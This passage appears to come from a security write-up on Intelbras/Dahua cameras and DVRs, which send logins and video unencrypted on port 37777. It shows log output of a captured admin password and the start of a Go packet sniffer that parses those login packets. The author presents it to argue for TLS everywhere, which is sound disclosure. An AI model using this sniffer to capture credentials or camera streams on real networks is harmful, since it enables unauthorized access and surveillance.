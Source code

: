 After that you should see a message where the program is waiting for packets to arrive:

    2019-08-02T18:18:12-03:00|I| Dahua | Opening wlp3s0 in promisc mode
    2019-08-02T18:18:12-03:00|I| Dahua | Waiting

Now you can open the Intelbras / Dahua application in the phone and if everything goes right, you should see the username/password:

    2019-08-02T18:18:12-03:00|I| Dahua | Opening wlp3s0 in promisc mode
    2019-08-02T18:18:12-03:00|I| Dahua | Waiting
    2019-08-02T18:19:01-03:00|W| Dahua | GOTCHA! Username: admin - Password: admin
    2019-08-02T18:19:01-03:00|W| Dahua | GOTCHA! Username: admin - Password: admin
    2019-08-02T18:19:02-03:00|W| Dahua | Got login, and stream data. Closing it...

That’s only possible because Dahua/Intelbras Cameras and DVRs communicate in plain text without any type of encryption. Because of that anyone in the same network as you can (specially if it has access to stuff like the Management Port of switches or sysadmins) can read not only the username and password but also the H.264 Video stream that flows in the network.

I hope that this will show you why EVERYTHING should ALWAYS use TLS for communication. Doesn’t matter if it’s just a small IoT device or a Camera System.

```go
package main

import (
    "bytes"
    "encoding/binary"
    "github.com/google/gopacket"
    "github.com/google/gopacket/pcap"
    "github.com/quan-to/slog"
)

var log = slog.Scope("Dahua")

var networkInterface = "wlp3s0"

type LoginPacket struct {
    PacketType uint16  // 0x00A0 -- Hardcoded on Dahua
    Unk0       uint16  // 0x6000 -- Hardcoded on Dahua
    Unk1       uint32  // 0x00000000
    Username   [8]byte // admin
    Password   [8]byte // admin
    Unk2       uint32  // 0x00030204
    Unk3       uint32  // 0xAAA10100
}

func main() {

    log.Info("Opening %s in promisc mode", networkInterface)
    handle, err := pcap.OpenLive(networkInterface, 1600, true, pcap.BlockForever)
    if err != nil {
        log.Fatal(err)
    }

    err = handle.SetBPFFilter("tcp and port 37777")

    if err != nil {
        log.Fatal("Cannot set filter: %s", err)
    }

    src := gopacket.NewPacketSource(handle, handle.LinkType())

    log.Info("Waiting")

    gotLogin := false
```